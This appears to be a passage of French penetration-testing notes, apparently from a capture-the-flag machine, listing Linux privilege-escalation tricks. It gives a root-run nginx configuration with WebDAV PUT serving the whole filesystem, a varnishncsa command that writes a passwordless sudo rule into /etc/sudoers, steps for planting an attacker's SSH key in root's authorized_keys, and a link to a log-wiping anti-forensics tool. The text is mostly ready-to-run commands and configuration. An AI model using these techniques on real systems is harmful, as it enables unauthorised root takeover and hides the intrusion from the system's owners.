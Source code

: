 ### Nginx

Dans le cas d'un binaire SUID, on rajoute `dav_methods PUT` pour uploader n'importe quel fichier

```bash
user root;
worker_processes auto;
pid /run/nginx2.pid;
include /etc/nginx/modules-enabled/*.conf;

events {
    worker_connections 768;
    # multi_accept on;
}

http {
    server {
        listen 1337;
        location/ {
            root /;
            autoindex on;
            dav_methods PUT;
    }
}
```

Lancement:

```bash
sudo nginx -c nginx.conf
```

```bash
activemq@broker:/tmp$ netstat -tunlp | grep 1337
netstat -tunlp | grep 1337
tcp        0      0 0.0.0.0:1337            0.0.0.0:*               LISTEN      -
```

### Varnish

```bash
## nc -nlvp 4444 (term1)

LFILE=/etc/sudoers
sudo varnishncsa -g request -q 'ReqURL ~ "/xxx"' -F '%{pwnd}i' -w "$LFILE"

## nc -nlvp 4444 (term2)
curl -H 'xxx:www-data ALL=(ALL) NOPASSWD:ALL' http://127.0.0.1:6081/xxx
```

### SSH - Keygen

```bash
## attaquant
ssh-keygen -t rsa -b 4096 -f keyname
#victime
curl localhost:1337/root/.ssh/authorized_keys --upload-file keyname.pub

#attaquant
ssh root@10.10.11.243 -i keyname
```

## Anti-Forensic (suppression de logs)

- https://github.com/sundowndev/covermyass
